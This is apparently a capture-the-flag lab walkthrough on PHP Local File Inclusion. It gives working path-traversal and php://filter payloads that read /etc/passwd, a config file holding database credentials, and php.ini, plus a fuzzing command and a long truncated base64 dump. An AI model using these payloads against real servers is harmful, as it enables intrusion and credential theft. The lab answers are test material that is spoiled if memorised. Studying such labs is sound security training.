

# File Inclusion

Many modern back-end languages, such as PHP, Javascript, or Java, use HTTP parameters to specify what is shown on the web page, which allows for building dynamic web pages, reduces the script's overall size, and simplifies the code. In such cases, parameters are used to specify which resource is shown on the page. If such functionalities are not securely coded, an attacker may manipulate these parameters to display the content of any local file on the hosting server, leading to a Local File Inclusion (LFI) vulnerability.

## File Disclosure

### Local File Inclusion (LFI)

**Using the file inclusion find the name of a user on the system that starts with "b".**

<figure><figcaption></figcaption></figure>

change the lang parameter:

* [http://94.237.56.188:45743/index.php?language=/../../../../etc/passwd](http://94.237.56.188:45743/index.php?language=/../../../../etc/passwd)

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

**Submit the contents of the flag.txt file located in the /usr/share/flags directory.**



<figure><figcaption></figcaption></figure>

### Basic Bypasses

**The above web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read /flag.txt**



<figure><figcaption></figcaption></figure>

### PHP Filters

**Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer**

ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://83.136.253.251:31143/FUZZ.php

<figure><figcaption></figcaption></figure>

index.php?language=**php://filter/read=convert.base64-encode/resource=configure**



<figure><figcaption></figcaption></figure>

`echo "PD9waHAKCmlmICgkX1NFUlZFUlsnUkVRVUVTVF9NRVRIT0QnXSA9PSAnR0VUJyAmJiByZWFscGF0aChfX0ZJTEVfXykgPT0gcmVhbHBhdGgoJF9TRVJWRVJbJ1NDUklQVF9GSUxFTkFNRSddKSkgewogIGhlYWRlcignSFRUUC8xLjAgNDAzIEZvcmJpZGRlbicsIFRSVUUsIDQwMyk7CiAgZGllKGhlYWRlcignbG9jYXRpb246IC9pbmRleC5waHAnKSk7Cn0KCiRjb25maWcgPSBhcnJheSgKICAnREJfSE9TVCcgPT4gJ2RiLmlubGFuZWZyZWlnaHQubG9jYWwnLAogICdEQl9VU0VSTkFNRScgPT4gJ3Jvb3QnLAogICdEQl9QQVNTV09SRCcgPT4gJ0hUQntuM3Yzcl8kdDByM19wbDQhbnQzeHRfY3IzZCR9JywKICAnREJfREFUQUJBU0UnID0" | base64 -d`

<figure><figcaption></figcaption></figure>

## Remote Code Execution (RCE)

### PHP Wrappers

**Try to gain RCE using one of the PHP wrappers and read the flag at /**

`curl "http://94.237.55.163:41581/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"`

<figure><figcaption></figcaption></figure>


```
W1BIUF0KCjs7Ozs7Ozs7Ozs7Ozs7Ozs7OzsKOyBBYm91dCBwaHAuaW5pICAgOwo7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7CjsgUEhQJ3MgaW5pdGlhbGl6YXRpb24gZmlsZSwgZ2VuZXJhbGx5IGNhbGxlZCBwaHAuaW5pLCBpcyByZXNwb25zaWJsZSBmb3IKOyBjb25maWd1cmluZyBtYW55IG9mIHRoZSBhc3BlY3RzIG9mIFBIUCdzIGJlaGF2aW9yLgoKOyBQSFAgYXR0ZW1wdHMgdG8gZmluZCBhbmQgbG9hZCB0aGlzIGNvbmZpZ3VyYXRpb24gZnJvbSBhIG51bWJlciBvZiBsb2NhdGlvbnMuCjsgVGhlIGZvbGxvd2luZyBpcyBhIHN1bW1hcnkgb2YgaXRzIHNlYXJjaCBvcmRlcjoKOyAxLiBTQVBJIG1vZHVsZSBzcGVjaWZpYyBsb2NhdGlvbi4KOyAyLiBUaGUgUEhQUkMgZW52aXJvbm1lbnQgdmFyaWFibGUuIChBcyBvZiBQSFAgNS4yLjApCjsgMy4gQSBudW1iZXIgb2YgcHJlZGVmaW5lZCByZWdpc3RyeSBrZXlzIG9uIFdpbmRvd3MgKEFzIG9mIFBIUCA1LjIuMCkKOyA0LiBDdXJyZW50IHdvcmtpbmcgZGlyZWN0b3J5IChleGNlcHQgQ0xJKQo7IDUuIFRoZSB3ZWIgc2VydmVyJ3MgZGlyZWN0b3J5IChmb3IgU0FQSSBtb2R1bGVzKSwgb3IgZGlyZWN0b3J5IG9mIFBIUAo7IChvdGhlcndpc2UgaW4gV2luZG93cykKOyA2LiBUaGUgZGlyZWN0b3J5IGZyb20gdGhlIC0td2l0aC1jb25maWctZmlsZS1wYXRoIGNvbXBpbGUgdGltZSBvcHRpb24sIG9yIHRoZQo7IFdpbmRvd3MgZGlyZWN0b3J5ICh1c3VhbGx5IEM6XHdpbmRvd3MpCjsgU2VlIHRoZSBQSFAgZG9jcyBmb3IgbW9yZSBzcGVjaWZpYyBpbmZvcm1hdGlvbi4KOyBodHRwOi8vcGhwLm5ldC9jb25maWd1cmF0aW9uLmZpbGUKCjsgVGhlIHN5bnRheCBvZiB0aGUgZmlsZSBpcyBleHRyZW1lbHkgc2ltcGxlLiAgV2hpdGVzcGFjZSBhbmQgbGluZXMKOyBiZWdpbm5pbmcgd2l0aCBhIHNlbWljb2xvbiBhcmUgc2lsZW50bHkgaWdub3JlZCAoYXMgeW91IHByb2JhYmx5IGd1ZXNzZWQpLgo7IFNlY3Rpb24gaGVhZGVycyAoZS5nLiBbRm9vXSkgYXJlIGFsc28gc2lsZW50bHkgaWdub3JlZCwgZXZlbiB0aG91Z2gKOyB0aGV5IG1pZ2h0IG1lYW4gc29tZXRoaW5nIGluIHRoZSBmdXR1cmUuCgo7IERpcmVjdGl2ZXMgZm9sbG93aW5nIHRoZSBzZWN0aW9uIGhlYWRpbmcgW1BBVEg9L3d3dy9teXNpdGVdIG9ubHkKOyBhcHBseSB0byBQSFAgZmlsZXMgaW4gdGhlIC93d3cvbXlzaXRlIGRpcmVjdG9yeS4gIERpcmVjdGl2ZXMKOyBmb2xsb3dpbmcgdGhlIHNlY3Rpb24gaGVhZGluZyBbSE9TVD13d3cuZXhhbXBsZS5jb21dIG9ubHkgYXBwbHkgdG8KOyBQSFAgZmlsZXMgc2VydmVkIGZyb20gd3d3LmV4YW1wbGUuY29tLiAgRGlyZWN0aXZlcyBzZXQgaW4gdGhlc2UKOyBzcGVjaWFsIHNlY3Rpb25zIGNhbm5vdCBiZSBvdmVycmlkZGVuIGJ5IHVzZXItZGVmaW5lZCBJTkkgZmlsZXMgb3IKOyBhdCBydW50aW1lLiBDdXJyZW50bHksIFtQQVRIPV0gYW5kIFtIT1NUPV0gc2VjdGlvbnMgb25seSB3b3JrIHVuZGVyCjsgQ0dJL0Zhc3RDR0kuCjsgaHR0cDovL3BocC5uZXQvaW5pLnNlY3Rpb25zCgo7IERpcmVjdGl2ZXMgYXJlIHNwZWNpZmllZCB1c2luZyB0aGUgZm9sbG93aW5nIHN5bnRheDoKOyBkaXJlY3RpdmUgPSB2YWx1ZQo7IERpcmVjdGl2ZSBuYW1lcyBhcmUgKmNhc2Ugc2Vuc2l0aXZlKiAtIGZvbz1iYXIgaXMgZGlmZmVyZW50IGZyb20gRk9PPWJhci4KOyBEaXJlY3RpdmVzIGFyZSB2YXJpYWJsZXMgdXNlZCB0byBjb25maWd1cmUgUEhQIG9yIFBIUCBleHRlbnNpb25zLgo7IFRoZXJlIGlzIG5vIG5hbWUgdmFsaWRhdGlvbi4gIElmIFBIUCBjYW4ndCBmaW5kIGFuIGV4cGVjdGVkCjsgZGlyZWN0aXZlIGJlY2F1c2UgaXQgaXMgbm90IHNldCBvciBpcyBtaXN0eXBlZCwgYSBkZWZhdWx0IHZhbHVlIHdpbGwgYmUgdXNlZC4KCjsgVGhlIHZhbHVlIGNhbiBiZSBhIHN0cmluZywgYSBudW1iZXIsIGEgUEhQIGNvbnN0YW50IChlLmcuIEVfQUxMIG9yIE1fUEkpLCBvbmUKOyBvZiB0aGUgSU5JIGNvbnN0YW50cyAoT24sIE9mZiwgVHJ1ZSwgRmFsc2UsIFllcywgTm8gYW5kIE5vbmUpIG9yIGFuIGV4cHJlc3Npb24KOyAoZS5nLiBFX0FMTCAmIH5FX05PVElDRSksIGEgcXVvdGVkIHN0cmluZyAoImJhciIpLCBvciBhIHJlZmVyZW5jZSB0byBhCjsgcHJldmlvdXNseSBzZXQgdmFyaWFibGUgb3IgZGlyZWN0aXZlIChlLmcuICR7Zm9vfSkKCjsgRXhwcmVzc2lvbnMgaW4gdGhlIElOSSBmaWxlIGFyZSBsaW1pdGVkIHRvIGJpdHdpc2Ugb3BlcmF0b3JzIGFuZCBwYXJlbnRoZXNlczoKOyB8ICBiaXR3aXNlIE9SCjsgXiAgYml0d2lzZSBYT1IKOyAmICBiaXR3aXNlIEFORAo7IH4gIGJpdHdpc2UgTk9UCjsgISAgYm9vbGVhbiBOT1QKCjsgQm9vbGVhbiBmbGFncyBjYW4gYmUgdHVybmVkIG9uIHVzaW5nIHRoZSB2YWx1ZXMgMSwgT24sIFRydWUgb3IgWWVzLgo7IFRoZXkgY2FuIGJlIHR1cm5lZCBvZmYgdXNpbmcgdGhlIHZhbHVlcyAwLCBPZmYsIEZhbHNlIG9yIE5vLgoKOyBBbiBlbXB0eSBzdHJpbmcgY2FuIGJlIGRlbm90ZWQgYnkgc2ltcGx5IG5vdCB3cml0aW5nIGFueXRoaW5nIGFmdGVyIHRoZSBlcXVhbAo7IHNpZ24sIG9yIGJ5IHVzaW5nIHRoZSBOb25lIGtleXdvcmQ6Cgo7IGZvbyA9ICAgICAgICAgOyBzZXRzIGZvbyB0byBhbiBlbXB0eSBzdHJpbmcKOyBmb28gPSBOb25lICAgIDsgc2V0cyBmb28gdG8gYW4gZW1wdHkgc3RyaW5nCjsgZm9vID0gIk5vbmUiICA7IHNldHMgZm9vIHRvIHRoZSBzdHJpbmcgJ05vbmUnCgo7IElmIHlvdSB1c2UgY29uc3RhbnRzIGluIHlvdXIgdmFsdWUsIGFuZCB0aGVzZSBjb25zdGFudHMgYmVsb25nIHRvIGEKOyBkeW5hbWljYWxseSBsb2FkZWQgZXh0ZW5zaW9uIChlaXRoZXIgYSBQSFAgZXh0ZW5zaW9uIG9yIGEgWmVuZCBleHRlbnNpb24pLAo7IHlvdSBtYXkgb25seSB1c2UgdGhlc2UgY29uc3RhbnRzICphZnRlciogdGhlIGxpbmUgdGhhdCBsb2FkcyB0aGUgZXh0ZW5zaW9uLgoKOzs7Ozs7Ozs7Ozs7Ozs7Ozs7Owo7IEFib3V0IHRoaXMgZmlsZSA7Cjs7Ozs7Ozs7Ozs7Ozs7Ozs7OzsKOyBQSFAgY29tZXMgcGFja2FnZWQgd2l0aCB0d28gSU5JIGZpbGVzLiBPbmUgdGhhdCBpcyByZWNvbW1lbmRlZCB0byBiZSB1c2VkCjsgaW4gcHJvZHVjdGlvbiBlbnZpcm9ubWVudHMgYW5kIG9uZSB0aGF0IGlzIHJlY29tbWVuZGVkIHRvIGJlIHVzZWQgaW4KOyBkZXZlbG9wbWVudCBlbnZpcm9ubWVudHMuCgo7IHBocC5pbmktcHJvZHVjdGlvbiBjb250YWlucyBzZXR0aW5ncyB3aGljaCBob2xkIHNlY3VyaXR5LCBwZXJmb3JtYW5jZSBhbmQKOyBiZXN0IHByYWN0aWNlcyBhdCBpdHMgY29yZS4gQnV0IHBsZWFzZSBiZSBhd2FyZSwgdGhlc2Ugc2V0dGluZ3MgbWF5IGJyZWFrCjsgY29tcGF0aWJpbGl0eSB3aXRoIG9sZGVyIG9yIGxlc3Mgc2VjdXJpdHkgY29uc2NpZW5jZSBhcHBsaWNhdGlvbnMuIFdlCjsgcmVjb21tZW5kaW5nIHVzaW5nIHRoZSBwcm9kdWN0aW9uIGluaSBpbiBwcm9kdWN0aW9uIGFuZCB0ZXN0aW5nIGVudmlyb25tZW50cy4KCjsgcGhwLmluaS1kZXZlbG9wbWVudCBpcyB2ZXJ5IHNpbWlsYXIgdG8gaXRzIHByb2R1Y3Rpb24gdmFyaWFudCwgZXhjZXB0IGl0IGlzCjsgbXVjaCBtb3JlIHZlcmJvc2Ugd2hlbiBpdCBjb21lcyB0byBlcnJvcnMuIFdlIHJlY29tbWVuZCB1c2luZyB0aGUKOyBkZXZlbG9wbWVudCB2ZXJzaW9uIG9ubHkgaW4gZGV2ZWxvcG1lbnQgZW52aXJvbm1lbnRzLCBhcyBlcnJvcnMgc2hvd24gdG8KOyBhcHBsaWNhdGlvbiB1c2VycyBjYW4gaW5hZHZlcnRlbnRseSBsZWFrIG90aGVyd2lzZSBzZWN1cmUgaW5mb3JtYXRpb24uCgo7IFRoaXMgaXMgdGhlIHBocC5pbmktcHJvZHVjdGlvbiBJTkkgZmlsZS4KCjs7Ozs7Ozs7Ozs7Ozs7Ozs7OzsKOyBRdWljayBSZWZlcmVuY2UgOwo7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7CjsgVGhlIGZvbGxvd2luZyBhcmUgYWxsIHRoZSBzZXR0aW5ncyB3aGljaCBhcmUgZGlmZmVyZW50IGluIGVpdGhlciB0aGUgcHJvZHVjdGlvbgo7IG9yIGRldmVsb3BtZW50IHZlcnNpb25zIG9mIHRoZSBJTklzIHdpdGggcmVzcGVjdCB0byBQSFAncyBkZWZhdWx0IGJlaGF2aW9yLgo7IFBsZWFzZSBzZWUgdGhlIGFjdHVhbCBzZXR0aW5ncyBsYXRlciBpbiB0aGUgZG9jdW1lbnQgZm9yIG1vcmUgZGV0YWlscyBhcyB0byB3aHkKOyB3ZSByZWNvbW1lbmQgdGhlc2UgY2hhbmdlcyBpbiBQSFAncyBiZWhhdmlvci4KCjsgZGlzcGxheV9lcnJvcnMKOyAgIERlZmF1bHQgVmFsdWU6IE9uCjsgICBEZXZlbG9wbWVudCBWYWx1ZTogT24KOyAgIFByb2R1Y3Rpb24gVmFsdWU6IE9mZgoKOyBkaXNwbGF5X3N0YXJ0dXBfZXJyb3JzCjsgICBEZWZhdWx0IFZhbHVlOiBPZmYKOyAgIERldmVsb3BtZW50IFZhbHVlOiBPbgo7ICAgUHJvZHVjdGlvbiBWYWx1ZTogT2ZmCgo7IGVycm9yX3JlcG9ydGluZwo7ICAgRGVmYXVsdCBWYWx1ZTogRV9BTEwgJiB+RV9OT1RJQ0UgJiB+RV9TVFJJQ1QgJiB+RV9ERVBSRUNBVEVECjsgICBEZXZlbG9wbWVudCBWYWx1ZTogRV9BTEwKOyAgIFByb2R1Y3Rpb24gVmFsdWU6IEVfQUxMICYgfkVfREVQUkVDQVRFRCAmIH5FX1NUUklDVAoKOyBsb2dfZXJyb3JzCjsgICBEZWZhdWx0IFZhbHVlOiBPZmYKOyAgIERldmVsb3BtZW50IFZhbHVlOiBPbgo7ICAgUHJvZHVjdGlvbiBWYWx1ZTogT24KCjsgbWF4X2lucHV0X3RpbWUKOyAgIERlZmF1bHQgVmFsdWU6IC0xIChVbmxpbWl0ZWQpCjsgICBEZXZlbG9wbWVudCBWYWx1ZTogNjAgKDYwIHNlY29uZHMpCjsgICBQcm9kdWN0aW9uIFZhbHVlOiA2MCAoNjAgc2Vjb25kcykKCjsgb3V0cHV0X2J1ZmZlcmluZwo7ICAgRGVmYXVsdCBWYWx1ZTogT2ZmCjsgICBEZXZlbG9wbWVudCBWYWx1ZTogNDA5Ngo7ICAgUHJvZHVjdGlvbiBWYWx1ZTogNDA5NgoKOyByZWdpc3Rlcl9hcmdjX2FyZ3YKOyAgIERlZmF1bHQgVmFsdWU6IE9uCjsgICBEZXZlbG9wbWVudCBWYWx1ZTogT2ZmCjsgICBQcm9kdWN0aW9uIFZhbHVlOiBPZmYKCjsgcmVxdWVzdF9vcmRlcgo7ICAgRGVmYXVsdCBWYWx1ZTogTm9uZQo7ICAgRGV2ZWxvcG1lbnQgVmFsdWU6ICJHUCIKOyAgIFByb2R1Y3Rpb24gVmFsdWU6ICJHUCIKCjsgc2Vzc2lvbi5nY19kaXZpc29yCjsgICBEZWZhdWx0IFZhbHVlOiAxMDAKOyAgIERldmVsb3BtZW50IFZhbHVlOiAxMDAwCjsgICBQcm9kdWN0aW9uIFZhbHVlOiAxMDAwCgo7IHNlc3Npb24uc2lkX2JpdHNfcGVyX2NoYXJhY3Rlcgo7ICAgRGVmYXVsdCBWYWx1ZTogNAo7ICAgRGV2ZWxvcG1lbnQgVmFsdWU6IDUKOyAgIFByb2R1Y3Rpb24gVmFsdWU6IDUKCjsgc2hvcnRfb3Blbl90YWcKOyAgIERlZmF1bHQgVmFsdWU6IE9uCjsgICBEZXZlbG9wbWVudCBWYWx1ZTogT2ZmCjsgICBQcm9kdWN0aW9uIFZhbHVlOiBPZmYKCjsgdmFyaWFibGVzX29yZGVyCjsgICBEZWZhdWx0IFZhbHVlOiAiRUdQQ1MiCjsgICBEZXZlbG9wbWVudCBWYWx1ZTogIkdQQ1MiCjsgICBQcm9kdWN0aW9uIFZhbHVlOiAiR1BDUyIKCjs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7CjsgcGhwLmluaSBPcHRpb25zICA7Cjs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7CjsgTmFtZSBmb3IgdXNlci1kZWZpbmVkIHBocC5pbmkgKC5odGFjY2VzcykgZmlsZXMuIERlZmF1bHQgaXMgIi51c2VyLmluaSIKO3VzZXJfaW5pLmZpbGVuYW1lID0gIi51c2VyLmluaSIKCjsgVG8gZGlzYWJsZSB0aGlzIGZlYXR1cmUgc2V0IHRoaXMgb3B0aW9uIHRvIGFuIGVtcHR5IHZhbHVlCjt1c2VyX2luaS5maWxlbmFtZSA9Cgo7IFRUTCBmb3IgdXNlci1kZWZpbmVkIHBocC5pbmkgZmlsZXMgKHRpbWUtdG8tbGl2ZSkgaW4gc2Vjb25kcy4gRGVmYXVsdCBpcyAzMDAgc2Vjb25kcyAoNSBtaW51dGVzKQo7dXNlcl9pbmkuY2FjaGVfdHRsID0gMzAwCgo7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Owo7IExhbmd1YWdlIE9wdGlvbnMgOwo7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7OwoKOyBFbmFibGUgdGhlIFBIUCBzY3JpcHRpbmcgbGFuZ3VhZ2UgZW5naW5lIHVuZGVyIEFwYWNoZS4KOyBodHRwOi8vcGhwLm5ldC9lbmdpbmUKZW5naW5lID0gT24KCjsgVGhpcyBkaXJlY3RpdmUgZGV0ZXJtaW5lcyB3aGV0aGVyIG9yIG5vdCBQSFAgd2lsbCByZWNvZ25pemUgY29kZSBiZXR3ZWVuCjsgPD8gYW5kID8+IHRhZ3MgYXMgUEhQIHNvdXJjZSB3aGljaCBzaG91bGQgYmUgcHJvY2Vzc2VkIGFzIHN1Y2guIEl0IGlzCjsgZ2VuZXJhbGx5IHJlY29tbWVuZGVkIHRoYXQgPD9waHAgYW5kID8+IHNob3VsZCBiZSB1c2VkIGFuZCB0aGF0IHRoaXMgZmVhdHVyZQo7IHNob3VsZCBiZSBkaXNhYmxlZCwgYXMgZW5hYmxpbmcgaXQgbWF5IHJlc3VsdCBpbiBpc3N1ZXMgd2hlbiBnZW5lcmF0aW5nIFhNTAo7IGRvY3VtZW50cywgaG93ZXZlciB0aGlzIHJlbWFpbnMgc3VwcG9ydGVkIGZvciBiYWNrd2FyZCBjb21wYXRpYmlsaXR5IHJlYXNvbnMuCjsgTm90ZSB0aGF0IHRoaXMgZGlyZWN0aXZlIGRvZXMgbm90IGNvbnRyb2wgdGhlIDw/PSBzaG9ydGhhbmQgdGFnLCB3aGljaCBjYW4gYmUKOyB1c2VkIHJlZ2FyZGxlc3Mgb2YgdGhpcyBkaXJlY3RpdmUuCjsgRGVmYXVsdCBWYWx1ZTogT24KOyBEZXZlbG9wbWVudCBWYWx1ZTogT2ZmCjsgUHJvZHVjdGlvbiBWYWx1ZTogT2ZmCjsgaHR0cDovL3BocC5uZXQvc2hvcnQtb3Blbi10YWcKc2hvcnRfb3Blbl90YWcgPSBPZmYKCjsgVGhlIG51bWJlciBvZiBzaWduaWZpY2FudCBkaWdpdHMgZGlzcGxheWVkIGluIGZsb2F0aW5nIHBvaW50IG51bWJlcnMuCjsgaHR0cDovL3BocC5uZXQvcHJlY2lzaW9uCnByZWNpc2lvbiA9IDE0Cgo7IE91dHB1dCBidWZmZXJpbmcgaXMgYSBtZWNoYW5pc20gZm9yIGNvbnRyb2xsaW5nIGhvdyBtdWNoIG91dHB1dCBkYXRhCjsgKGV4Y2x1ZGluZyBoZWFkZXJzIGFuZCBjb29raWVzKSBQSFAgc2hvdWxkIGtlZXAgaW50ZXJuYWxseSBiZWZvcmUgcHVzaGluZyB0aGF0CjsgZGF0YSB0byB0aGUgY2xpZW50LiBJZiB5b3VyIGFwcGxpY2F0aW9uJ3Mgb3V0cHV0IGV4Y2VlZHMgdGhpcyBzZXR0aW5nLCBQSFAKOyB3aWxsIHNlbmQgdGhhdCBkYXRhIGluIGNodW5rcyBvZiByb3VnaGx5IHRoZSBzaXplIHlvdSBzcGVjaWZ5Lgo7IFR1cm5pbmcgb24gdGhpcyBzZXR0aW5nIGFuZCBtYW5hZ2luZyBpdHMgbWF4aW11bSBidWZmZXIgc2l6ZSBjYW4geWllbGQgc29tZQo7IGludGVyZXN0aW5nIHNpZGUtZWZmZWN0cyBkZXBlbmRpbmcgb24geW91ciBhcHBsaWNhdGlvbiBhbmQgd2ViIHNlcnZlci4KOyBZb3UgbWF5IGJlIGFibGUgdG8gc2VuZCBoZWFkZXJzIGFuZCBjb29raWVzIGFmdGVyIHlvdSd2ZSBhbHJlYWR5IHNlbnQgb3V0cHV0CjsgdGhyb3VnaCBwcmludCBvciBlY2hvLiBZb3UgYWxzbyBtYXkgc2VlIHBlcmZvcm1hbmNlIGJlbmVmaXRzIGlmIHlvdXIgc2VydmVyIGlzCjsgZW1pdHRpbmcgbGVzcyBwYWNrZXRzIGR1ZSB0byBidWZmZXJlZCBvdXRwdXQgdmVyc3VzIFBIUCBzdHJlYW1pbmcgdGhlIG91dHB1dAo7IGFzIGl0IGdldHMgaXQuIE9uIHByb2R1Y3Rpb24gc2VydmVycywgNDA5NiBieXRlcyBpcyBhIGdvb2Qgc2V0dGluZyBmb3IgcGVyZm9ybWFuY2UKOyByZWFzb25zLgo7IE5vdGU6IE91dHB1dCBidWZmZXJpbmcgY2FuIGFsc28gYmUgY29udHJvbGxlZCB2aWEgT3V0cHV0IEJ1ZmZlcmluZyBDb250cm9sCjsgICBmdW5jdGlvbnMuCjsgUG9zc2libGUgVmFsdWVzOgo7ICAgT24gPSBFbmFibGVkIGFuZCBidWZmZXIgaXMgdW5saW1pdGVkLiAoVXNlIHdpdGggY2F1dGlvbikKOyAgIE9mZiA9IERpc2FibGVkCjsgICBJbnRlZ2VyID0gRW5hYmxlcyB0aGUgYnVmZmVyIGFuZCBzZXRzIGl0cyBtYXhpbXVtIHNpemUgaW4gYnl0ZXMuCjsgTm90ZTogVGhpcyBkaXJlY3RpdmUgaXMgaGFyZGNvZGVkIHRvIE9mZiBmb3IgdGhlIENMSSBTQVBJCjsgRGVmYXVsdCBWYWx1ZTogT2ZmCjsgRGV2ZWxvcG1lbnQgVmFsdWU6IDQwOTYKOyBQcm9kdWN0aW9uIFZhbHVlOiA0MDk2CjsgaHR0cDovL3BocC5uZXQvb3V0cHV0LWJ1ZmZlcmluZwpvdXRwdXRfYnVmZmVyaW5nID0gNDA5NgoKOyBZb3UgY2FuIHJlZGlyZWN0IGFsbCBvZiB0aGUgb3V0cHV0IG9mIHlvdXIgc2NyaXB0cyB0byBhIGZ1bmN0aW9uLiAgRm9yCjsgZXhhbXBsZSwgaWYgeW91IHNldCBvdXRwdXRfaGFuZGxlciB0byAibWJfb3V0cHV0X2hhbmRsZXIiLCBjaGFyYWN0ZXIKOyBlbmNvZGluZyB3aWxsIGJlIHRyYW5zcGFyZW50bHkgY29udmVydGVkIHRvIHRoZSBzcGVjaWZpZWQgZW5jb2RpbmcuCjsgU2V0dGluZyBhbnkgb3V0cHV0IGhhbmRsZXIgYXV0b21hdGljYWxseSB0dXJucyBvbiBvdXRwdXQgYnVmZmVyaW5nLgo7IE5vdGU6IFBlb3BsZSB3aG8gd3JvdGUgcG9ydGFibGUgc2NyaXB0cyBzaG91bGQgbm90IGRlcGVuZCBvbiB0aGlzIGluaQo7ICAgZGlyZWN0aXZlLiBJbnN0ZWFkLCBleHBsaWNpdGx5IHNldCB0aGUgb3V0cHV0IGhhbmRsZXIgdXNpbmcgb2Jfc3RhcnQoKS4KOyAgIFVzaW5nIHRoaXMgaW5pIGRpcmVjdGl2ZSBtYXkgY2F1c2UgcHJvYmxlbXMgdW5sZXNzIHlvdSBrbm93IHdoYXQgc2NyaXB0CjsgICBpcyBkb2luZy4KOyBOb3RlOiBZb3UgY2Fubm90IHVzZSBib3RoICJtYl9vdXRwdXRfaGFuZGxlciIgd2l0aCAib2JfaWNvbnZfaGFuZGxlciIKOyAgIGFuZCB5b3UgY2Fubm90IHVzZSBib3RoICJvYl9nemhhbmRsZXIiIGFuZCAiemxpYi5vdXRwdXRfY29tcHJlc3Npb24iLgo7IE5vdGU6IG91dHB1dF9oYW5kbGVyIG11c3QgYmUgZW1wdHkgaWYgdGhpcyBpcyBzZXQgJ09uJyAhISEhCjsgICBJbnN0ZWFkIHlvdSBtdXN0IHVzZSB6bGliLm91dHB1dF9oYW5kbGVyLgo7IGh0dHA6Ly9waHAubmV0L291dHB1dC1oYW5kbGVyCjtvdXRwdXRfaGFuZGxlciA9Cgo7IFVSTCByZXdyaXRlciBmdW5jdGlvbiByZXdyaXRlcyBVUkwgb24gdGhlIGZseSBieSB1c2luZwo7IG91dHB1dCBidWZmZXIuIFlvdSBjYW4gc2V0IHRhcmdldCB0YWdzIGJ5IHRoaXMgY29uZmlndXJhdGlvbi4KOyAiZm9ybSIgdGFnIGlzIHNwZWNpYWwgdGFnLiBJdCB3aWxsIGFkZCBoaWRkZW4gaW5wdXQgdGFnIHRvIHBhc3MgdmFsdWVzLgo7IFJlZmVyIHRvIHNlc3Npb24udHJhbnNfc2lkX3RhZ3MgZm9yIHVzYWdlLgo7IERlZmF1bHQgVmFsdWU6ICJmb3JtPSIKOyBEZXZlbG9wbWVudCBWYWx1ZTogImZvcm09Igo7IFByb2R1Y3Rpb24gVmFsdWU6ICJmb3JtPSIKO3VybF9yZXdyaXRlci50YWdzCgo7IFVSTCByZXdyaXRlciB3aWxsIG5vdCByZXdyaXRlIGFic29sdXRlIFVSTCBub3IgZm9ybSBieSBkZWZhdWx0LiBUbyBlbmFibGUKOyBhYnNvbHV0ZSBVUkwgcmV3cml0ZSwgYWxsb3dlZCBob3N0cyBtdXN0IGJlIGRlZmluZWQgYXQgUlVOVElNRS4KOyBSZWZlciB0byBzZXNzaW9uLnRyYW5zX3NpZF9ob3N0cyBmb3IgbW9yZSBkZXRhaWxzLgo7IERlZmF1bHQgVmFsdWU6ICIiCjsgRGV2ZWxvcG1lbnQgVmFsdWU6ICIiCjsgUHJvZHVjdGlvbiBWYWx1ZTogIiIKO3VybF9yZXdyaXRlci5ob3N0cwoKOyBUcmFuc3BhcmVudCBvdXRwdXQgY29tcHJlc3Npb24gdXNpbmcgdGhlIHpsaWIgbGlicmFyeQo7IFZhbGlkIHZhbHVlcyBmb3IgdGhpcyBvcHRpb24gYXJlICdvZmYnLCAnb24nLCBvciBhIHNwZWNpZmljIGJ1ZmZlciBzaXplCjsgdG8gYmUgdXNlZCBmb3IgY29tcHJlc3Npb24gKGRlZmF1bHQgaXMgNEtCKQo7IE5vdGU6IFJlc3VsdGluZyBjaHVuayBzaXplIG1heSB2YXJ5IGR1ZSB0byBuYXR1cmUgb2YgY29tcHJlc3Npb24uIFBIUAo7ICAgb3V0cHV0cyBjaHVua3MgdGhhdCBhcmUgZmV3IGh1bmRyZWRzIGJ5dGVzIGVhY2ggYXMgYSByZXN1bHQgb2YKOyAgIGNvbXByZXNzaW9uLiBJZiB5b3UgcHJlZmVyIGEgbGFyZ2VyIGNodW5rIHNpemUgZm9yIGJldHRlcgo7ICAgcGVyZm9ybWFuY2UsIGVuYWJsZSBvdXRwdXRfYnVmZmVyaW5nIGluIGFk